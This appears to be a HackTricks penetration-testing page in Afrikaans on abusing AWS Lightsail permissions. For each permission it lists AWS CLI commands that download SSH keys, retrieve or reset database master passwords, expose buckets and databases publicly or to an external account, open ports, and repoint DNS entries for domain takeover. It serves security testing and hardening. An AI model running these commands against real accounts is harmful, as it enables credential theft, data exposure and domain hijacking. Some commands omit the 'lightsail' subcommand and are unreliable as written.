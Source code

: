 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Vir meer inligting oor Lightsail, kyk:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Dit is belangrik om te noem dat Lightsail **nie IAM rolle wat aan die gebruiker behoort gebruik nie** maar aan 'n AWS bestuurde rekening, so jy kan nie hierdie diens misbruik om privesc te doen nie. Tog, **sensitiewe data** soos kode, API sleutels en databasis inligting kan in hierdie diens gevind word.

### `lightsail:DownloadDefaultKeyPair`

Hierdie toestemming sal jou toelaat om die SSH sleutels te kry om toegang tot die instansies te verkry:
```
aws lightsail download-default-key-pair
```
**Potensiële Impak:** Vind sensitiewe inligting binne die instansies.

### `lightsail:GetInstanceAccessDetails`

Hierdie toestemming sal jou toelaat om SSH-sleutels te genereer om toegang tot die instansies te verkry:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die instansies.

### `lightsail:CreateBucketAccessKey`

Hierdie toestemming sal jou toelaat om 'n sleutel te kry om toegang tot die emmer te verkry:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die emmer.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Hierdie toestemming sal jou toelaat om die geloofsbriewe te verkry om toegang tot die databasis te verkry:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die databasis.

### `lightsail:UpdateRelationalDatabase`

Hierdie toestemming sal jou toelaat om die wagwoord te verander om toegang tot die databasis te verkry:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
As die databasis nie publiek is nie, kan jy dit ook publiek maak met hierdie toestemmings met
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Potensiële Impak:** Vind sensitiewe inligting binne die databasis.

### `lightsail:OpenInstancePublicPorts`

Hierdie toestemming laat toe om poorte na die Internet te open.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potensiële Impak:** Toegang tot sensitiewe poorte.

### `lightsail:PutInstancePublicPorts`

Hierdie toestemming laat toe om poorte na die Internet oop te maak. Let daarop dat die oproep enige poort wat nie daarop gespesifiseer is nie, sal sluit.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potensiële Impak:** Toegang tot sensitiewe poorte.

### `lightsail:SetResourceAccessForBucket`

Hierdie toestemming laat toe om 'n instansie toegang tot 'n emmer te gee sonder enige ekstra akrediteer.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Potensiële Impak:** Potensiële nuwe toegang tot emmers met sensitiewe inligting.

### `lightsail:UpdateBucket`

Met hierdie toestemming kan 'n aanvaller sy eie AWS-rekening leestoegang oor emmers verleen of selfs die emmers publiek maak vir almal:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potensiële Impak:** Potensiële nuwe toegang tot emmers met sensitiewe inligting.

### `lightsail:UpdateContainerService`

Met hierdie toestemmings kan 'n aanvaller toegang tot private ECR's van die houerdiens verleen.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potensiële Impak:** Kry sensitiewe inligting van private ECR

### `lightsail:CreateDomainEntry`

'n Aanvaller met hierdie toestemming kan 'n subdomein skep en dit na sy eie IP-adres wys (subdomein oorname), of 'n SPF-record opstel wat hom toelaat om e-posse van die domein te vervals, of selfs die hoofdomein na sy eie IP-adres stel.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potensiële Impak:** Neem 'n domein oor

### `lightsail:UpdateDomainEntry`

'n Aanvaller met hierdie toestemming kan 'n subdomein skep en dit na sy eie IP-adres wys (subdomein oorname), of 'n SPF-record opstel wat hom toelaat om e-posse van die domein te vervals, of selfs die hoofdomein na sy eie IP-adres stel.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potensiële Impak:** Neem 'n domein oor

{{#include ../../../banners/hacktricks-training.md}}
